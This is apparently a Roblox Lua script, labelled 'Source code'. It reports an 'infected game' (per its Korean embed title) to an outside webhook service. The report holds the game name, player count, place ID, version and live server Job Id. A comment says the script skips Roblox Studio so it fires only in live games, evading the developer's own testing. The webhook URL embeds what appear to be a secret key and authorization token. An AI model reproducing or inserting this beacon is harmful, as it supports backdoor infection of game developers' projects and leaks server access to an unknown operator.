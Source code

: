 local webhook = "https://api-sidemod.sidetechrblx.com/v3/webhooks/1254229768728084603/sk_ctgDy9C6Imct2XNOrAMqrmjCbrwHTPJ3bcf9QuTsIXXJzTXRi_Aghyg1rd0ZLYnkq?authorization=rEX7R8W3DqxRT409LLQh"
local name = game:GetService("MarketplaceService"):GetProductInfo(game.PlaceId)
local http = game:GetService("HttpService")
local players = game.Players:GetPlayers()
local maxplayers = game.Players.MaxPlayers

local function getTime()
	local date = os.date("*t")
	return ("%02d:%02d"):format(((date.hour % 24) - 1) % 12 + 1, date.min)
end

local data = {
	["embeds"] = {{
		["title"] = "감염게임 발견 바로가기!",
		["url"] = "https://roblox.com/games/" .. game.PlaceId,
		["description"] = "**Game Name:** ".. name.Name.."\n**Players:** ".. #players.."/"..maxplayers.."\n**Game Id:** ".. game.PlaceId.."\n**Game Version:** ".. game.PlaceVersion.."\n**Job Id:** "..game.JobId,
		["image"] = {
			["url"] = "https://t2.rbxcdn.com/0d499b55a8bc928003c91e739d829038"..game.PlaceId.."&width=768&height=432&format=png"
		},
		["footer"] = {
			["icon_url"] = "", 
		},
		["color"] = 5814783,

	}}
}

--if not game:GetService("RunService"):IsStudio() then 
local encode = http:JSONEncode(data) 
http:PostAsync(webhook,encode)
--end -- it will not run in studio only in game
